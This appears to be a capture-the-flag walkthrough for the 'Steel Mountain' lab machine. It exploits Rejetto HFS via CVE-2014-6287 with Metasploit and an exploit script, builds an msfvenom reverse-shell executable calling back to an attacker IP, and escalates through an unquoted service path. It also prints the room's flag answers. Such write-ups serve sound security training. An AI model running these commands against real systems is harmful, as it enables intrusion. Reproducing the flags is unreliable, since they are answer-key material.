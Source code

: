 # STEEL MOUNTAIN

## BASIC INFO

```
export IP=10.10.90.232
```

## INITIAL ACCESS

```
nmap -sV -sC -oN nmap/init $IP -p- -T4
```

> - **Scan the machine with nmap. What is the other port running a web server on?**
>> 8080

> - **Take a look at the other web server. What file server is running?**
>> Rejetto Http File Server

There is a link at the bottom left of the page. Once we click, it redirects  us to rejetto.com and the file server name is HttpFileServer.

> - **What is the CVE number to exploit this file server?**
>> 2014-6287

> - **Use Metasploit to get an initial shell. What is the user flag?**
>> b04763b6fcf51fcd7c13abc7db4fd365

```
msfconsole
use exploit/windows/http/rejetto_hfs_exec
This exploit may require manual cleanup of '%TEMP%\BlJLuM.vbs' on the target
```

## PRIVILAGE ESCALATION

Using a script called [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). It is used to evaluate a Windows machine and determine any abnormalities.

In meterpreter, `upload /opt/PowerShellEXploit/PowerUp.ps1`\
Then run `load powershell` followed by `powershell_shell`\
After we spawned a powershell, enter the command `. .\PowerUp.ps1` and `Invoke-allChecks`

> - **Take close attention to the CanRestart option that is set to true. What is the name of the unquoted service path service name?**
>> AdvancedSystemCareService9

Use msfvenom to generate a reverse shell as an Windows executable.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.8.177 LPORT=9001 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

Upload it with meterpreter, then run the following command in the windows shell.
```
sc stop AdvancedSystemCareService9
copy ASCService.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

Then choose yes when prompt to overwrite the program.

Now we create a listener on our host machine.\
`nc -lnvp 9001`\
Then restart the service with `sc start AdvancedSystemCareSevice9` in the windows shell.\
Now we have access to the machine as root.
```
cd C:\Users\Administrator\Desktop
type root.txt
```

> - **What is the root flag?**
>> 9af5f314f57607c00fd09803a587db80

## ACCESS AND ESCALATION WITHOUT METASPLOIT

Download a static netcat binary from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)

Then start a simple http service with python.\
`python3 -m http.server 80`

Then as usual we need to set up a listener.\
`nc -lnvp 9001`

Then using this [exploit](exploit.py), we run the command\
`python exploit.py $IP 8080`

We need to run it twice for it to work. First time it will request the nc.exe from our server then second time we will get a shell on our listener.

> - **What powershell -c command could we run to manually find out the service name?**
>> powershell -c Get-Service

Then we just repeat the same process as above to escalate to admin.